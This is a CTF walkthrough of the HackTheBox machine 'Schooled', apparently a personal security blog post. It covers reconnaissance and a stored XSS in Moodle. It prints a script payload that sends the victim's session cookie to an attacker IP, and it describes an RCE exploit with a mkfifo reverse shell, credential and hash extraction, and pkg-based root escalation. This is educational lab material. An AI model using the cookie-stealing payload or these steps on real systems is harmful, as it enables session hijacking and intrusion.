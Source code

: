 ```yaml
---
title: "Schooled - HackTheBox"
layout: single
excerpt: "This is a medium difficulty machine, for its intrusion I took advantage of an 'XSS' to steal the session cookie from the administrator and make use of an 'exploit' to gain arbitrary code execution, for the privilege escalation I had the ability to execute the `pkg` binary with 'root' privileges, for this I went to gtfobins and found a payload that allowed privilege escalation."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/133932400-60dcfc4d-9b54-4d9d-9f6b-c139b2c4c53c.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - XSS
  - Cookie Hijacking
  - pkg
  - mysql
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/136654760-5b8168a2-79dc-40f9-a9a0-aa2e05090c1d.jpg">
</p>

I started with an `Nmap` scan to detect open ports on the machine.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sS --min-rate=5000 -vvv -n -Pn --open 10.10.10.234 -oN targeted
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:18 EDT
Initiating SYN Stealth Scan at 06:18
Scanning 10.10.10.234 [1000 ports]
Discovered open port 22/tcp on 10.10.10.234
Discovered open port 80/tcp on 10.10.10.234
Completed SYN Stealth Scan at 06:18, 0.52s elapsed (1000 total ports)
Nmap scan report for 10.10.10.234
Host is up, received user-set (0.047s latency).
Scanned at 2021-09-18 06:18:46 EDT for 0s
Not shown: 798 filtered ports, 200 closed ports
Reason: 798 no-responses and 200 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh 	syn-ack ttl 63
80/tcp open  http	syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
       	Raw packets sent: 1798 (79.112KB) | Rcvd: 202 (8.088KB)
```

I did another scan to detect the version of each open port.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sC -sV -p22,80 10.10.10.234 -oN webScan                    	 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:20 EDT
Nmap scan report for 10.10.10.234
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
| 2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
| 256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_ 256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http	Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.25 seconds
```

I had two ports open, the first was for the `SSH` service and the other was a web server, there was little I could do on the first one so I resorted to seeing what was on the web server.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Apparently it was a school page, I investigated it a little more and found the following in the "footer" of the website.

![https://imgur.com/Vnl3TCA.png](https://imgur.com/Vnl3TCA.png)

This caught my attention, I thought that `virtual hosting` could be applied, that is, hosting different domains on a single 'IP', so I entered it in `/etc/hosts`.

![https://imgur.com/9V1ffkh.png](https://imgur.com/9V1ffkh.png)

I went back to the website, but there was nothing interesting.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

I used `whatweb` to see if it was running any `CMS`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# whatweb http://schooled.htb/
http://schooled.htb/ [200 OK] Apache[2.4.46], Bootstrap, Country[RESERVED][ZZ], Email[#,admissions@schooled.htb], HTML5, HTTPServer[FreeBSD][Apache/2.4.46 (FreeBSD) PHP/7.4.15], IP[10.10.10.234], PHP[7.4.15], Script, Title[Schooled - A new kind of educational institute], X-UA-Compatible[IE=edge]
```

Apparently it was the same one, so I did some subdomain fuzzing and found one that caught my attention.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# wfuzz -c --hc=404 -u http://schooled.htb/ -H "Host: FUZZ.schooled.htb" -w /usr/share/amass/wordlists/subdomains.lst -t 20 --hw=1555
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                     	*
********************************************************

Target: http://schooled.htb/
Total requests: 8215

=====================================================================
ID       	Response   Lines	Word   	Chars   	Payload                                                                                 	 
=====================================================================

000002430:   400    	10 L 	45 W   	347 Ch  	"ferrari.fortwayne.com."                                                                	 
000004127:   200    	1 L  	5 W    	84 Ch   	"moodle"
```

`Moodle` was a subdomain that I was apparently using, I entered it in the `/etc/hosts`.

![https://imgur.com/OShD4Q5.png](https://imgur.com/OShD4Q5.png)

And the page tells me something different, it was a `moodle`.

![https://imgur.com/tCieGJx.png](https://imgur.com/tCieGJx.png)

It had a button that said `Log In`, clicking it redirected me to a login page.

![https://imgur.com/dvEEVpA.png](https://imgur.com/dvEEVpA.png)

I had no credentials so there was little I could do, but I could register.

![https://imgur.com/W3FR84S.png](https://imgur.com/W3FR84S.png)

Once registered, I logged in.

![https://imgur.com/OnSim3m.png](https://imgur.com/OnSim3m.png)

Looking at all the subjects that were available, `mathematics` was the only one that had a user named 'Manuel Philips'.

![https://imgur.com/3VUKpya.png](https://imgur.com/3VUKpya.png)

I found a comment from this user.

![Untitled (4) (1)](https://user-images.githubusercontent.com/69093629/133931890-edc2a9ae-3ac4-4e6e-a0a9-0caf666843f0.png)

What caught my attention the most was that it says to verify all users, looking a little more at the page I found this `buffer` that apparently allowed me to talk to `Manuel Philips`, I tried to see if it was vulnerable to `XSS`.

![Sin título (1) (2) (1)](https://user-images.githubusercontent.com/69093629/133931959-b6273540-4006-4950-8f7f-042e62dc398f.png)

And the alert was reported to me on the screen.

![https://imgur.com/OpYC8nU.png](https://imgur.com/OpYC8nU.png)

Now that I knew it was vulnerable to `XSS` I remembered the message that said all users would be verified, I thought about performing a `Cookie Hijacking`, that is, stealing the session `cookie` of the privileged user, to do this I used the following syntax in `JS`.

```js
<script>document.location="http://10.10.16.3/value_cookie="+document.cookie</script>
```

It can actually be done in many ways.

![https://imgur.com/upgz0Co.png](https://imgur.com/upgz0Co.png)

I opened a server via `Python` and received my session `cookie` via `GET` plus others that were not mine.

![https://imgur.com/gYNFMRR.png](https://imgur.com/gYNFMRR.png)

I authenticated with the `cookie` I received and it seemed to be from the user `Manuel Philips`, going back to the previous message, I saw that it said something about `MoodleNet`, I decided to investigate and found a `Lanz` exploit that guarantees you `RCE`.

![Captura de pantalla (2)](https://user-images.githubusercontent.com/69093629/133928030-748d5a80-0d9f-4ed9-be5d-0d78952340d3.png)

I run it by giving it the session cookie of user `Manuel Philips` and running a reverse shell through `mkfifo` and gaining access to the machine.

![https://imgur.com/JpUx8Ox.png](https://imgur.com/JpUx8Ox.png)

Investigating the machine I found a file called `config.php` that had `MySQL` credentials.

![https://imgur.com/r590xtu.png](https://imgur.com/r590xtu.png)

Before using `MySQL` I used the `MySQLshow` utility to list the databases and their tables.

![Qm7IKtT](https://user-images.githubusercontent.com/69093629/133929540-2504f516-0097-41ca-9ca8-e896e68c1dd1.png)

After enumerating the `Moodle` database I found a special table called `mdl_user`, enumerating it I found different columns, but I was especially struck by "username", "password" and "email", after enumerating them I was given different `hashes` of users.

![https://imgur.com/CBBvwrR.png](https://imgur.com/CBBvwrR.png)

I decided to crack the `hashes` with `john` locally and I managed to crack the `!QAZ2wsx` credential which belonged to the user `jamie`, as the machine had `SSH` open I tried to authenticate with these credentials and I accessed, I could now view the user's "flag".

![NPUMyaN](https://user-images.githubusercontent.com/69093629/133930143-76bae971-7103-44df-b564-bc03fb6052b4.jpg)

<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

Doing `sudo -l` I saw that I could run `pkg` as any user.

![https://imgur.com/5rV3sG0.png](https://imgur.com/5rV3sG0.png)

I headed over to [gtfobins](https://gtfobins.github.io) and found a payload that allowed me to escalate privileges.

![https://imgur.com/EjF0tv9.png](https://imgur.com/EjF0tv9.png)

On the victim machine I didn't have `fpm` installed, so I did it on my machine, made it grant `SUID` privileges to `bash`, transferred it to the victim machine and ran it, and I could now see the `root` flag.

![t7fDsbP](https://user-images.githubusercontent.com/69093629/133930359-c73352b9-00dd-4bf5-88dc-d9078cf3439a.jpg)



































